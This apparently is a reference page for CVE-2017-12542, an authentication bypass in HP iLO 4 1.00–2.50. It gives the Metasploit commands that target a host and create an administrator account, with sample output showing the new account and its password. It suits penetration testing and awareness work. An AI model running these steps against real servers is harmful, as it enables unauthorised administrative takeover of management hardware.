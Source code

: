 icon:fontawesome/solid/unlock-keyhole

# CVE-2017-12542

CVE-2017-12542 - HP iLO 4 1.00-2.50 Authentication Bypass Administrator Account Creation

This module exploits an authentication bypass in HP iLO 4 1.00 to 2.50, triggered by a buffer overflow in the Connection HTTP header handling by the web server. Exploiting this vulnerability gives full access to the REST API, allowing arbitrary accounts creation.

## Usage

```bash
msf5 > use auxiliary/admin/hp/hp_ilo_create_admin_account
```

## Examples

```bash
msf5 > use auxiliary/admin/hp/hp_ilo_create_admin_account
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > set RHOSTS 10.10.10.16
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > set USERNAME MyAdmin
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > run
[*] Running module against 10.10.10.16

[*] Trying to create account MyAdmin...
[+] Account MyAdmin/A7ay2i110sSa created successfully.
[*] Auxiliary module execution completed[/code]
```

## References

- [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2017-12542)
- [Exploit-db.com](https://www.exploit-db.com/exploits/44005)
- [Support.hpe.com](https://support.hpe.com/hpesc/public/docDisplay?docId=emr_na-hpesbhf03769en_us)
